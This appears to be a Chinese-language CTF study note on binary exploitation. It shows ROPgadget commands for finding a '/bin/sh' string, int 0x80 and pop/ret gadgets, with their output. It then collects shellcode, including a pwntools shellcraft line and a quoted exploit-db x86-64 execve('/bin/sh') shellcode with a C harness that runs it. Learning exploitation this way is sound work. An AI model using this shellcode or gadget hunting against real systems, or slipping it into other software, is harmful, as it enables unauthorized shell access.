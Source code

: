 # ROPgadgets操作整理

## 查找字符串

```bash
ROPgadget --binary rop  --string '/bin/sh'
```

返回值：

```
Strings information
============================================================
0x080be408 : /bin/sh
```

## 查找某个指令

```bash
ROPgadget --binary rop  --only 'int'
```

返回值：

```
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

## 经典操作

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
```

返回值：

```
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

# shellcode 整理

整理一些用过的 shellcode

https://www.exploit-db.com/shellcode/

## Linux_x86

### 1 pwntools shellcraft

```python
shellcode = asm(shellcraft.sh())
```



## Linux_x86-64

### 1 Linux/x64 - execve(/bin/sh) Via Push Shellcode (23 bytes)

https://www.exploit-db.com/exploits/36858/

```c
/*
    #
    # Execve /bin/sh Shellcode Via Push (Linux x86_64 23 bytes)
    #
    # Dying to be the shortest.
    #
    # Copyright (C) 2015 Gu Zhengxiong (rectigu@gmail.com)
    #
    # 27 April 2015
    #
    # GPL
    #
 
 
    .global _start
_start:
    # char *const argv[]
    xorl %esi, %esi
 
    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq $0x68732f2f6e69622f, %rbx
 
    # for '\x00'
    pushq %rsi
 
    pushq %rbx
 
    pushq %rsp
    # const char *filename
    popq %rdi
 
    # __NR_execve 59
    pushq $59
    popq %rax
 
    # char *const envp[]
    xorl %edx, %edx
 
    syscall
 */
 
/*
  gcc -z execstack push64.c
 
  uname -r
  3.19.3-3-ARCH
 */
 
#include <stdio.h>
#include <string.h>
 
int
main(void)
{
  char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
 
  printf("strlen(shellcode)=%d\n", strlen(shellcode));
 
  ((void (*)(void))shellcode)();
 
  return 0;
}
```

